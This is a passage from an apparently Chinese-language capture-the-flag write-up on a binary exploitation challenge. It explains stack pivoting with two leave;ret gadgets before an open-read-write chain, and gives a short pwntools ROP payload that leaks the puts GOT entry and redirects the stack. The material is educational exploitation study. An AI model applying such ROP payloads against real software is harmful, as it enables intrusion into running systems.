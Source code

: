 两次leave\_ret将rsp矫正

[![](assets/1701606597-c4cef843a20806b6eabc2d3cc659d768.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170511-3f377bd0-845f-1.png)

[![](assets/1701606597-ef0d91dab735a31157ca0ab5f91aa4e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170515-41f63c76-845f-1.png)

**orw：**

布置为stack\_addr+0x28-8，执行orw

```plain
payload = p64(stack_addr+0xb0+0x28) 
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)
```

[![](assets/1701606597-55e80d57047948f26a843b42ed0c1ea8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170522-45cc390e-845f-1.png)
